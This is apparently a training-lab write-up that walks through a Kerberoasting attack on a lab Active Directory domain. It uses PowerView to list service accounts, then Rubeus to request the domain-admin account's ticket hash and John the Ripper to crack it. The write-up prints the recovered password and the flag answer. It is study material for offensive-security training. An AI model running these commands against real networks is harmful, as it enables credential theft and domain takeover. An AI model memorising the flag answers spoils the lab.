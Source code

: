 ```yaml
---
description: Learning Object 14
icon: vial
---
```


# 14 - LO1️4️

## Tasks



1 - Using the Kerberoast attack, crack password of a SQL server service account

Flag 23 \[dcorp-dc] - SPN for which a TGS is requested 🚩



## Solutions

### 1 - Using the Kerberoast attack, crack password of a SQL server service account

First to all, we need to find out services running with user accounts as the services running with machine accounts have difficult passwords.

We can use PowerView's (Get-DomainUser -SPN) or ActiveDirectory module for discovering such services:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -SPN
```

```powershell
pwdlastset                    : 11/11/2022 9:59:41 PM
logoncount                    : 0
badpasswordtime               : 12/31/1600 4:00:00 PM
description                   : Key Distribution Center Service Account
distinguishedname             : CN=krbtgt,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass                   : {top, person, organizationalPerson, user}
showinadvancedviewonly        : True
samaccountname                : krbtgt
admincount                    : 1
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : NEVER
countrycode                   : 0
whenchanged                   : 11/12/2022 6:14:52 AM
instancetype                  : 4
useraccountcontrol            : ACCOUNTDISABLE, NORMAL_ACCOUNT
objectguid                    : 956ae091-be8d-49da-966b-0daa8d291bb2
lastlogoff                    : 12/31/1600 4:00:00 PM
whencreated                   : 11/12/2022 5:59:41 AM
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata         : {5/17/2025 7:37:45 PM, 5/17/2025 6:37:45 PM, 5/17/2025 5:37:45 PM, 5/17/2025 4:37:45 PM...}
serviceprincipalname          : kadmin/changepw
usncreated                    : 12300
usnchanged                    : 12957
memberof                      : CN=Denied RODC Password Replication Group,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
lastlogon                     : 12/31/1600 4:00:00 PM
badpwdcount                   : 0
cn                            : krbtgt
msds-supportedencryptiontypes : 0
objectsid                     : S-1-5-21-719815819-3726368948-3917688648-502
primarygroupid                : 513
iscriticalsystemobject        : True
name                          : krbtgt

logoncount               : 5
badpasswordtime          : 12/31/1600 4:00:00 PM
distinguishedname        : CN=web svc,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass              : {top, person, organizationalPerson, user}
displayname              : web svc
lastlogontimestamp       : 10/25/2024 3:37:34 AM
userprincipalname        : websvc
whencreated              : 11/14/2022 12:42:13 PM
samaccountname           : websvc
codepage                 : 0
samaccounttype           : USER_OBJECT
accountexpires           : NEVER
countrycode              : 0
whenchanged              : 10/25/2024 10:37:34 AM
instancetype             : 4
usncreated               : 38071
objectguid               : b7ab147c-f929-4ad2-82c9-7e1b656492fe
sn                       : svc
lastlogoff               : 12/31/1600 4:00:00 PM
msds-allowedtodelegateto : {CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL, CIFS/dcorp-mssql}
objectcategory           : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata    : {12/5/2024 12:47:28 PM, 11/14/2022 12:42:13 PM, 1/1/1601 12:00:01 AM}
serviceprincipalname     : {SNMP/ufc-adminsrv.dollarcorp.moneycorp.LOCAL, SNMP/ufc-adminsrv}
givenname                : web
usnchanged               : 255349
lastlogon                : 10/25/2024 3:37:34 AM
badpwdcount              : 0
cn                       : web svc
useraccountcontrol       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
objectsid                : S-1-5-21-719815819-3726368948-3917688648-1114
primarygroupid           : 513
pwdlastset               : 11/14/2022 4:42:13 AM
name                     : web svc

logoncount            : 41
badpasswordtime       : 11/25/2022 4:20:42 AM
description           : Account to be used for services which need high privileges.
distinguishedname     : CN=svc admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : svc admin
lastlogontimestamp    : 5/17/2025 2:45:48 AM
userprincipalname     : svcadmin
samaccountname        : svcadmin
admincount            : 1
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 5/17/2025 9:45:48 AM
instancetype          : 4
usncreated            : 40118
objectguid            : 244f9c84-7e33-4ed6-aca1-3328d0802db0
sn                    : admin
lastlogoff            : 12/31/1600 4:00:00 PM
whencreated           : 11/14/2022 5:06:37 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata : {5/17/2025 7:37:45 PM, 5/17/2025 6:37:45 PM, 5/17/2025 5:37:45 PM, 5/17/2025 4:37:45 PM...}
serviceprincipalname  : {MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433, MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local}
givenname             : svc
usnchanged            : 332821
memberof              : CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
lastlogon             : 5/17/2025 10:11:41 AM
badpwdcount           : 0
cn                    : svc admin
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
objectsid             : S-1-5-21-719815819-3726368948-3917688648-1118
primarygroupid        : 513
pwdlastset            : 11/14/2022 9:06:37 AM
name                  : svc admin
```

&#x20;The svcadmin (domain administrator) has a SPN set, so we can Kerberoast it.

We can use Rubeus to get hashes for the svcadmin account. We can use the /rc4opsec option that gets hashes only for the accounts that support RC4, this means that if 'This account supports Kerberos AES 128/256 bit encryption' is set for a service account, the below command will not request its hashes (in this case it works using a new session without InviShell).

```bash
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args kerberoast /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Now we can use John the Ripper or Hashcat to brute-force the hashes, but first to all remember to remove ":1433" from the SPN in hashes.txt:

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

```bash
C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

`*ThisisBlasphemyThisisMadness!!`

### Flag 23 \[dcorp-dc] - SPN for which a TGS is requested 🚩

```
serviceprincipalname  : {MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433, MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local}
```

XXXXXXXXXXorp-mgmt.dollarcorp.moneycorp.local is the SPN for which a TGS is requested.
